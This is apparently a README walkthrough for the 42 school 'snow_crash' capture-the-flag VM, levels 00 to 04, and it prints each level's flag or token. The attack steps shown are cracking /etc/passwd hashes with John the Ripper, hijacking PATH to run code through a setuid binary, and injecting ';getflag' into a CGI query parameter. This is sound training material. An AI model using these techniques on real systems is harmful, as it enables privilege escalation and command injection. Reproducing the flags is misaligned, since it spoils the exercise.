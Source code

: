 # snow\_crash

This is a CTF made in 42. The flags, you gotta catch them all. At each level
there is a way to hack yourself to the next level by finding the flag which is
the password for the next user.

## Setup

```shell
# launch the snow_crash vm with qemu
./vm_lauch.bash
# connect to it with ssh (pass: level00)
ssh -p 2222 level00@localhost
```

> The vm\_launch.bash script takes an optional parameter for the ISO path.

## Caesar Cipher (level00)

The password for the user flag00 is located in the file `/usr/sbin/john`. It is
a plaintext file containing a string encrypted with a
[caesar cipher](https://en.wikipedia.org/wiki/Caesar_cipher). This is a classic
and simple symetric encryption scheme which uses a key for rotating the
characters in a text. Here the key is -11. This is means that each letter in the
text has been shifted on the left eleven times. To decrypt the password we need
to do the inverse operation, which is a right shift of the same value.

| Cipher | c | d | i | i | d | d | w | p | g | s | w | t | g | t |
|:------:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|:-:|
| Plain  | n | o | t | t | o | o | h | a | r | d | h | e | r | e |

## Broken DES (level01)

The second level is as simple as running john the ripper on flag01's password
hash, as it is subtly hinted at by the first level's password filename.

```shell
# copy the passwd file from the virtual machine (with level00 as a password)
scp -P 2222 level00@localhost:/etc/passwd .
# pass it through john the ripper
john --show passwd
```

This should output something like that:

```
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left
```

Where `abcdefg` is the password for flag01. It works because here the legacy
unix password hashing function `crypt` is used for encrypting the user's
password. It is based on a modified version of
[DES](https://en.wikipedia.org/wiki/Data_Encryption_Standard) to turn it into a
one-way function but it is not secure anymore, especially when the password is
as simple as it is here.

## Wireshark packet dump (level02)

Here you have a .pcap file at the root of the home directory. This contains a
list of TCP packets captured with wireshark. The password is contained in the
payloads of the TCP packets after the `Password:` string (which is really a
prompt). Each TCP payload is one byte long and represents an input from the user
logging into this insecure online service. The input ends with a 0x0d, which is
a form feed character meaning that the input is done.

To read the file simply copy it from the virtual machine and open it with
wireshark.

```shell
# copy the file from the vm (with the flag from the last level)
scp -P 2222 level02@localhost:~/level02.pcap .
# change its permissions to open it
chmod 644 level02.pcap
# read it with wireshark
wireshark level02.pcap
```

> If you dont have wireshark or cannot install it (like on 42's machines), just
> use the tshark.bash script in level02's Resources directory. It will read it
> and print each TCP payload from the pcap file: `./tshark.bash`.

Note that some of the payloads of the password are 0x7f. This is the DEL
character, which means the user screwed up and deleted part of his input. So _n_
preceding characters need to be deleted, where _n_ is the number of DEL in a
row. The final password is: `ft_waNDReL0L`.

## Use the PATH luke (level03)

Here we have binary owned by the flag03 user and the setuid bit on. The level03
user has execution rights on it, which means that whatever it does will be done
as if it was the user flag03 that executed it.

By running the binary through gdb and breaking in main, we can see that it calls
the `system` function to execute an echo command.

```shell
# run gdb on the binary
gdb ./level03
# set a breakpoint at the main function (through gdb's prompt)
(gdb) b main
# run the program
(gdb) run
# see the assembly code being executed
(gdb) disass
```

At the end of the assembly instruction list, we can see these two lines:

```
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
```

The first instruction loads a parameter into esp for the system function call
on the next line. When printing the string being passed to it (as it is what
[system](https://man7.org/linux/man-pages/man3/system.3.html) takes as a
parameter), we can see which command will be executed:

```
# print the parameter
(gdb) p (char *)0x80485e0
# outputs
$1 = 0x80485e0 "/usr/bin/env echo Exploit me"
```

Since the echo binary is explicitely located through the env command and not
hardcoded with an absolute path, we can use the `PATH` environment variable of
the shell to execute arbitrary code:

```shell
# write the script that will be executed by the system call
cat << END > /tmp/echo
#!/bin/bash

/usr/bin/id
/bin/getflag
END
# make it executable
chmod +x /tmp/echo
# run the binary and make the shell look into /tmp for the echo command
PATH=/tmp ./level03
```

Which will output:

```
uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

## CGI bad (level04)

The perl script at the root the home is a CGI file. It is used to render web
pages dynamically. The corresponding page, as it is nicely pointed out by the
comment in the script, is served on localhost:4747.

> If you are using the `vm_launch.bash` script, the 4747 is mapped to 3333, so
> you can see the page on localhost:3333.

There is nothing to be showed right now. But like in the last exercise, the perl
script has the setuid bit on and belongs to flag04. In it we can see a backtick
syntax with an echo command and what looks like variable substitution with '$y'.

Just give 'x=something' as a get parameter to the page to see 'something' in it
through the echo command. Since it's a shell command just pass ';getflag' to it:

```
http://localhost:3333/?x=%3bgetflag
```

Where '3b' is the ascii hexcode for ';'. Then see the token on the page :)
